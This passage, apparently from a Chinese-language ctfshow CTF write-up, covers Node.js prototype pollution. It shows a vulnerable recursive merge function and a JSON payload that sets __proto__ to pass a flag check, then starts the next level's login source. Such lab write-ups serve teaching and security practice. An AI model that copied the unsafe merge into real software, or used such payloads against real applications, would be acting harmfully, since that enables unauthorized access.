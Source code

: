 ```javascript
module.exports = router;
```

common.js

```javascript
module.exports = {
  copy:copy
};

function copy(object1, object2){
    for (let key in object2) {
        if (key in object2 && key in object1) {
            copy(object1[key], object2[key])
        } else {
            object1[key] = object2[key]
        }
    }
  }
```

这个copy函数就是将对象进行递归合并

payload

```
Content-Type: application/json

{"username":"2","password":"2","__proto__":{"ctfshow":"36dboy"}}
```



![image-20240322133415404](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240322133415404.png)

### web339

给了源码

login.js

```javascript
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  var flag='flag_here';
  var secert = {};
  var sess = req.session;
  let user = {};
  utils.copy(user,req.body);
  if(secert.ctfshow===flag){
    res.end(flag);
  }else{
    return res.json({ret_code: 2, ret_msg: '登录失败'+JSON.stringify(user)});  
  }
});
```
